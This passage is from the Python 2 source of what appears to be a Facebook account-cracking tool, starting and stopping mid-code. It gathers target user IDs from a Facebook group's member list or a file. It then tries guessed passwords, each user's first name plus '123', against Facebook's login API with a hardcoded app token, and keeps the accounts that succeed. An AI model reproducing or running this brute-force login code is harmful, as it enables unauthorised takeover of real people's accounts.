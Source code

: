 			id.append(i['id'])
	elif peak =="3":
		os.system('reset')
		print logo
		idg=raw_input('\033[1;91m[+] \033[1;92mInput ID group \033[1;91m:\033[1;97m ')
		try:
			r=requests.get('https://graph.facebook.com/group/?id='+idg+'&access_token='+toket)
			asw=json.loads(r.text)
			print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom group \033[1;91m:\033[1;97m "+asw['name']
		except KeyError:
			print"\033[1;91m[!] Group not found"
			raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
			super()
		jalan('\033[1;91m[✺] \033[1;92mGet group member id \033[1;97m...')
		re=requests.get('https://graph.facebook.com/'+idg+'/members?fields=name,id&limit=9999999999999&access_token='+toket)
		s=json.loads(re.text)
		for p in s['data']:
			id.append(p['id'])
        elif peak == "4":
                os.system('reset')
                print logo
                try:
                        idlist = raw_input('\033[1;91m[+] \033[1;92mFile ID  \033[1;91m: \033[1;97m')
                        for line in open(idlist,'r').readlines():
                                id.append(line.strip())
                except KeyError:
                        print '\033[1;91m[!] File not found'
                        raw_input('\n\033[1;91m[ \033[1;97mBack \033[1;91m]')
                        super()
	elif peak =="0":
		menu_hack()
	else:
		print "\033[1;91m[!] Wrong input"
		pilih_super()
		
        print "\033[1;91m[+] \033[1;92mTotal ID \033[1;91m: \033[1;97m"+str(len(id))
        jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
        print 42*"\033[1;97m═"
	
			
	##### crack #####
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			#Pass1
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name']+'123'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])